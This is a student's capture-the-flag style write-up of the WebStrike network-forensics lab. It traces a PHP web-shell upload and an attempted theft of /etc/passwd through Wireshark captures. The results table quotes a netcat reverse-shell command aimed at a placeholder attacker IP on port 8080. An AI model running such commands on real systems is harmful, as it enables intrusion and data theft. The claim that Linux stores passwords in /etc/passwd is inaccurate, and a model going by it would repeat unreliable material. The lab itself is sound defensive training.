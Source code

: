 <aside>
❓

1. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
</aside>

1. To know which port was opened, I simply went back to the packet where the method was “POST” and inspect the contents “image.jpg.php” ,there I saw that it used a netcat(nc) command with the ip address along with the port number “8080” hence this was the port number → Answer to the 5th question.

(insert the 8080 image) 

![Screenshot 2025-10-28 at 8.39.53 PM.png](Experiment%207%20WebStrike%20Lab%20297c704c659681c5bebef80c8df5b1f7/Screenshot_2025-10-28_at_8.39.53_PM.png)

<aside>
❓

1. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate.
</aside>

1. Finally I need to recognize which file the attacker was trying to exfiltrate? In order to know I went again to the packets which contained the POST method, since I mentioned previously that there were 3 packets contained the method POST I followed the HTTP stream of the last packet from that the User-Agent was changed to “curl” which indicated that it was using the “curl” command from the “Terminal” and the command which was used is “/etc/passwd/.

![Screenshot 2025-10-28 at 8.46.35 PM.png](Experiment%207%20WebStrike%20Lab%20297c704c659681c5bebef80c8df5b1f7/4f299593-3bfa-41e1-8aa5-285be86d2e75.png)

In other words the attacker was trying to exfiltrate the “passwords” file which  is a critical target as it contains a list of system users and their associated configuration information which was stored in the server. Technically this where every Linux OS stores its passwords. 

This Concludes the Lab.

# Results

| # | Finding | Evidence (from Wireshark) | Conclusion |
| --- | --- | --- | --- |
| **1** | **Attack Origin** | Source IP address in HTTP traffic traced to **Tianjin, China** via IP geolocation lookup. | The attack originated from Tianjin, China. |
| **2** | **Attacker User-Agent** | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` observed in HTTP request headers. | Attacker was using a **Linux-based system** with **Firefox browser**. |
| **3** | **Malicious Upload** | HTTP `POST /reviews/upload.php` request containing file **`image.jpg.php`**. | A **malicious PHP web shell** was successfully uploaded by bypassing file type restrictions. |
| **4** | **Upload Directory** | Subsequent request to **`/reviews/uploads/image.jpg.php`**. | The web shell was stored in the **`/reviews/uploads/`** directory. |
| **5** | **Reverse Shell Connection** | Payload contained command: `nc [attacker_ip] 8080 -e /bin/sh`. | The web shell attempted to establish a **reverse shell to port 8080** on the attacker’s system. |
| **6** | **Data Exfiltration Attempt** | HTTP request with User-Agent `curl` accessing **`/etc/passwd`**. | Attacker attempted to **exfiltrate sensitive system file** `/etc/passwd`. |

**Additional results**

---
